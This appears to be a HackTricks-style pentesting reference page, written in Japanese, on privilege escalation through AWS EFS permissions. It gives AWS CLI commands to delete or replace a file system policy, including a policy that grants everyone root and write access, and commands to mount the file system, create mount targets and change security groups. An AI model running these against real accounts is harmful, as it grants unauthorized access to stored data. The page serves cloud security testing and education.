 # AWS - EFS Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## EFS

EFS に関する**詳細情報**は以下を参照：

{{#ref}}
../../aws-services/aws-efs-enum.md
{{#endref}}

EFS をマウントするには、EFS が公開されているサブネットワーク内にいることと、それにアクセスできること（セキュリティグループの設定）が必要です。これらの条件が満たされている場合、デフォルトでは常にマウントできます。ただし、IAM ポリシーによって保護されている場合は、アクセスするためにここで示されている追加の権限が必要になります。

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

これらのいずれかの権限を持っていれば、攻撃者は **ファイルシステムポリシーを変更する** ことで **アクセスを付与する** ことができ、あるいは単に **それを削除する** ことで **デフォルトのアクセス** を有効にすることができます。

ポリシーを削除するには：
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
それを変更するには:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

この権限があれば、攻撃者は **EFS をマウント** できます。書き込み権限が EFS をマウントできる全員にデフォルトで付与されていない場合、攻撃者は **読み取りアクセスのみ** となります。
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
追加の権限 `elasticfilesystem:ClientRootAccess` と `elasticfilesystem:ClientWrite` は、マウント後にファイルシステム内に**書き込み**を行い、そのファイルシステムに**root としてアクセス**するために使えます。

**Potential Impact:** ファイルシステム内の機密情報を特定することで間接的な privesc を引き起こす可能性があります。

### `elasticfilesystem:CreateMountTarget`

攻撃者が EFS の **マウントターゲットが存在しない** **サブネットワーク** にいる場合、この権限があれば彼は **自分のサブネットにそれを作成**できます：
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Potential Impact:** ファイルシステム内の機密情報を見つけることで間接的にprivescが可能になる。

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

攻撃者が自分のサブネット内に EFS のマウントターゲットが存在するが **no security group is allowing the traffic** と判定した場合、選択された **security groups を変更してそれを許可するように設定できる**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**潜在的影響:** ファイルシステム内の機密情報を特定することで生じる間接的なprivesc。

{{#include ../../../../banners/hacktricks-training.md}}
